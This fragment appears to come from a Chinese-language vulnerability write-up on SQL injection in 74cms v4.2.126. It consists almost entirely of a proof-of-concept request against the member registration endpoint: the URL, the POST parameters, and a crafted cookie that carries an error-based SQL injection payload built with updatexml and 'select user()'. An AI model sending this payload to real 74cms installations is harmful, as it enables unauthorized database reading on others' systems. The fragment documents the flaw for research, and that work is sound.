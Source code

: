 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId57.png)

    url: 
    http://74cms.test/index.php?m=&c=Members&a=register
    post: 
    reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

    cookie:
    members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;
